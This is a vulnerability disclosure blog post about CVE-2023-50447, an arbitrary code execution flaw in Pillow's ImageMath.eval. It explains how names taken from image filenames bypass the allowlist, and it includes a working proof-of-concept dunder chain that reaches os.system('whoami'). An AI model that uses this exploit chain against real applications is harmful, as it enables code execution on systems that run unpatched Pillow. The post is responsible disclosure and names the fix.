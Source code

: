 ```yaml
---
layout: post
title: Arbitrary Code Execution in Pillow
subtitle: CVE-2023-50447
tags: [CVE]
---
```


During Checkmarx’s Research Group routine activities, we often conduct security assessments on open-source technologies to refine both our tools and our skillset. During one of these activities, I identified a **Critical** vulnerability in [Pillow](https://github.com/python-pillow/Pillow). It is present in the `PIL.ImageMath.eval` function, in versions up to and including 10.1.0. This vulnerability was latter assigned [CVE-2023-50447](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-50447).

{: .box-error}
**CVSS v3.1:** [9.0](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector=AV:N/AC:H/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1)

Serving as a successor to the Python Imaging Library (PIL), Pillow is a Python imaging library that provides a comprehensive set of tools for opening, manipulating, and saving various image file formats. It is widely used in web development, data analysis, computer vision, and other domains, providing a user-friendly interface. With support for numerous image formats and a rich set of features, Pillow is a go-to solution for developers and designers working with images in Python applications.

The `ImageMath` module provides a single `eval` function, which takes an expression string and one or more images. It's basically a wrapper around Python's built-in `eval` function, but with a few more special operations for working with images. You can read more about this function and how it works in the Pillow [documentation](https://pillow.readthedocs.io/en/stable/reference/ImageMath.html#PIL.ImageMath.eval). Here is a usage example from the documentation, which includes two of the built-in functions — `convert` and `min`:

```python
from PIL import Image, ImageMath

with Image.open('image1.jpg') as im1:
    with Image.open('image2.jpg') as im2:
        out = ImageMath.eval("convert(min(a, b), 'L')", a=im1, b=im2)
        out.save('result.png')
```

It's not the first time that a vulnerability has been discovered that leads to (spoiler alert!) arbitrary code execution in this function. Versions prior to 9.0.1 were vulnerable to [CVE-2022-22817](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22817). In those versions, `PIL.ImageMath.eval` allowed the evaluation of arbitrary expressions (i.e. there was no validation whatsoever of the expression provided), and so it was trivial to get arbitrary code execution simply by controlling the expression passed to the function — e.g. `ImageMath.eval('exec(...)')`.

To prevent this vulnerability, a [commit](https://github.com/python-pillow/Pillow/commit/8531b01d6cdf0b70f256f93092caa2a5d91afc11) was made with the aim of restricting the builtins available to `PIL.ImageMath.eval()`. Let's review this snippet of Pillow's code with the filter responsible for ensuring that we're not evaluating arbitrary objects:

```python
code = compile(expression, "<string>", "eval")
...
for name in code.co_names:
    if name not in args and name != "abs":
        msg = f"'{name}' not allowed"
        raise ValueError(msg)
```

* `expression` refers to the first parameter of `PIL.ImageMath.eval`, i.e. the string containing a Python-style expression;
* `args` contains values to add to the evaluation context, which includes some built-in functions as well as the arguments passed to the second parameter of `PIL.ImageMath.eval` so that they can be referenced inside;
* `compile` is a Python built-in function ([docs](https://docs.python.org/3/library/functions.html#compile)) that compiles an expression into a code or AST object, so that it can later be executed by `exec` or `eval`;
* `co_names` is an attribute of a code object that returns a tuple containing the names (e.g. names of used variables) in the expression — to be more precise, it's in the bytecode object.

So what's happening here is that it's checking the names in the expression against an allowlist  (i.e. `args`). On the surface, it seems like a good solution, but like everything in application security, the devil is in the details...

Take a look at the code snippet one more time — what would happen if we could control this allowlist? We'd be able to use whatever "`co_names`" we wanted and thus achieve arbitrary code execution! Unfortunately, it's not that simple... We can't just add an `exec` to the `PIL.ImageMath.eval` context and use the payload we saw earlier in CVE-2022-22817, because that `exec` won't be the Python function, but an `Image` passed in as an argument:

```python
ImageMath.eval("exec(...)", exec=Image.open(...))
```

Hmm... Now what? How can we bypass this? We need to get permission to use the "`co_names`" we want to and at the same time we need those names to be the functions we actually want to call, not just the object passed as an argument. It was at this point that I remembered the challenges of some CTFs I played in the past related to Python jail/sandbox escapes — to bypass this we can use Python's *dunder* (or magic) methods! Allow me to explain...

Although we can't call arbitrary functions in the context of `eval`, by controlling this allowlist, we can call arbitrary methods inside any present object. This is because the name of a method has a different context from the name of a variable, for example, if we take the code above it's easy to see that the `exec` in `exec('whoami')` is different from `Palpatine.exec('Order 66')`. Our `exec` in the latter case won't be "replaced" by the object passed to the `PIL.ImageMath.eval` context since it is the `exec` attribute corresponding to the `Palpatine` object and not a standalone object.

In short, we now have the ability to call arbitrary attributes. This, along with the existence of *dunder* methods, can be used to achieve arbitrary code execution. [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#discover-arbitrary-execution) has some payloads that we can use for this.

That said, exploiting this vulnerability has some obstacles in real scenarios which result in high attack complexity and reduced overall risk: it is necessary for the images passed to the environment to be able to have names like "\_\_class\_\_". Although this is a valid file name, applications need to be able to save images without changing this name. For instance, things like adding the file extension (e.g. jpg) to the filename would already prevent this vulnerability from being exploited.

It's finally time to write a Proof Of Concept (POC). For this POC we need 5 images with the names: "\_\_class\_\_", "\_\_bases\_\_", "\_\_subclasses\_\_", "load_module", and "system". Note that these are valid file names on any OS.

```python
from PIL import Image, ImageMath

image1 = Image.open('__class__')
image2 = Image.open('__bases__')
image3 = Image.open('__subclasses__')
image4 = Image.open('load_module')
image5 = Image.open('system')

expression = "().__class__.__bases__[0].__subclasses__()[104].load_module('os').system('whoami')"

environment = {
    image1.filename: image1,
    image2.filename: image2,
    image3.filename: image3,
    image4.filename: image4,
    image5.filename: image5
}

ImageMath.eval(expression, **environment)
```

We are considering that an attacker can control both the `expression` and the names of the images passed to the `environment` (i.e. the `environment` keys). In this snippet, the images supplied to the `PIL.ImageMath.eval` context will be accessible within the expression via their filenames. This allows us to use these filenames to call attributes with the same name. In a real application, this could happen if there was, for example, a feature that allowed us to upload images and another feature that let us evaluate expressions containing our images, with their respective names, through `PIL.ImageMath.eval` — this would make a good web CTF challenge, hmm... Having managed to call arbitrary attributes, all that remains is to find a chain of *dunders* that will let us execute code. For this we use the chain described in `expression`. That's it!

I reported this vulnerability to the Pillow maintainers and it was fixed in version 10.2.0 ([commit](https://github.com/python-pillow/Pillow/commit/02c6183d41c68a8dd080f5739f566bd82485822d)), as described in the [Release Notes](https://pillow.readthedocs.io/en/stable/releasenotes/10.2.0.html#imagemath-eval-restricted-environment-keys). To prevent this, keys matching the names of builtins and keys containing double underscores will now raise a `ValueError`. I would also like to take this opportunity to thank the Pillow maintainers for their efficient communication and professionalism.

[comment]: # TODO : Conclusion

Thanks for reading, I hope it was interesting! 🙂
